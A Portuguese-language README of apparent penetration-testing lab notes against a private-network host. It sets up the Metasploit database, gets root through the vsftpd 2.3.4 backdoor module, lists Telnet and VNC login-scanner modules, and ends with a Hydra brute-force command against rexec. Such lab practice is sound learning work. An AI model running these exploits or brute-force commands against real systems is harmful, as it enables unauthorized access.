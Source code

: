 
# Conectando no Banco de Dados (Parte mais chata)

```bash
sudo apt install postgresql postgresql-contrib &&
sudo service postgresql start

msfdb init
```

## Dentro do MSFCONSOLE

```bash
msfconsole
db_connect msf:msf@127.0.0.1:5432/msf
```

---

## Criando Workspace desse Computador

![Criando Workspace](https://github.com/user-attachments/assets/c79ab59f-974d-4781-bb66-693c1e4cff30)

## Serviços

![Serviços](https://github.com/user-attachments/assets/e2602863-3e4e-426a-a54a-eca74d17c896)

## Informações de Host

![Informações de Host](https://github.com/user-attachments/assets/121e0dc0-f0ed-43af-81b0-7d5af6a9aaee)

## Procurando Diretórios Escondidos

![Diretórios Escondidos](https://github.com/user-attachments/assets/f4ec5416-ea24-4f5a-8234-1894a40596b9)

## Aprofundando

![Profundando 2](https://github.com/user-attachments/assets/fdf0e3c5-cae1-4044-a42e-541c8ab3ced3)
![image](https://github.com/user-attachments/assets/d5d2abe2-15f3-42d0-9437-a090990f9c7c)
### Mais info da vuln 512 https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/rservices/rexec_login.md

---
# INVASÕES
vsftpd 2.3.4
![image](https://github.com/user-attachments/assets/abc64304-25ad-45f5-97ee-bf44b724ac86)

## Depois de conseguir acesso como root usando o payload ( Salvar sessão ):

```bash
CTRL + Z
Y

sessions        # Ver sessões ativas
sessions -i 2   # Acessar a sessão 2
```

![image](https://github.com/user-attachments/assets/ea3a1675-41b7-4832-b96c-d626c48420bb)

---

## PAYLOADs

```text
cmd/unix/interact               => vsft 3.2.4
auxiliary/scanner/telnet_login => Telnet porta 23
scanner/vnc/vnc_login          => VNC (usar depois com: vncviewer 192.168.100.102:5900 :password)
```

## Força Bruta com Nmap e Hydra

```bash

# Depois:
hydra -L /home/luan/Desktop/porta_512_logins/usuarios_512.txt \
      -P /home/luan/Desktop/porta_512_logins/passwd_512.txt \
      -vV 192.168.100.102 rexec
```
